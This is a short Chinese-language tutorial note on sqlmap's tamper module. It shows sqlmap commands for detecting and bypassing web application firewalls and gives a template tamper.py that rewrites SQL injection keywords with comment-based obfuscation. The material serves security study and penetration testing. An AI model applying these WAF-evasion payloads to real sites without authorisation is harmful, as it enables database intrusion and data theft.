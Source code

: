 #### (3). Tamper模块

##### a.说明

* sqlmap在**默认情况**下，除了使用**CHAR()**函数**防止出现单引号**，没有对注入的数据进行修改
* 可以使用**--tamper参数对数据做修改**来绕过WAF等设备
* 部分脚本主要使用**正则模块**替换**攻击载荷编码**的方式来尝试绕过WAF

##### b. 用法

```
1. 检测WAF种类
	sqlmap -u [URL] --identify-waf(--check-waf)
2. 绕过WAF
	sqlmap -u [URL] --tamper "模块名"
```

##### c. 模板

* tamper.py文件

```python
from lib.core.enums import PRIORITY
import os
__priority__ = PRIORITY.LOWEST
def dependencies():
    pass
def tamper(payload, **kwargs):
    payload = payload.replace('AND', '/*!%23/*%0aAND*/')
    payload = payload.replace('DATABASE()', 'DATABASE/*$%^a*/()')
    payload = payload.replace('FROM', '/*!%23/*%0afrom*/')
    payload = payload.replace('UNION ALL', 'union/*!99999*/all')
    payload = payload.replace('SESSION_USER()', 'USER()')
    payload = payload.replace('USER()', 'USER/*////*/()')
    return payload
```

##### d. 常用tamper

<img src="../../images/8-27-morning/脚本名.png" alt="脚本名" style="zoom:50%;" />
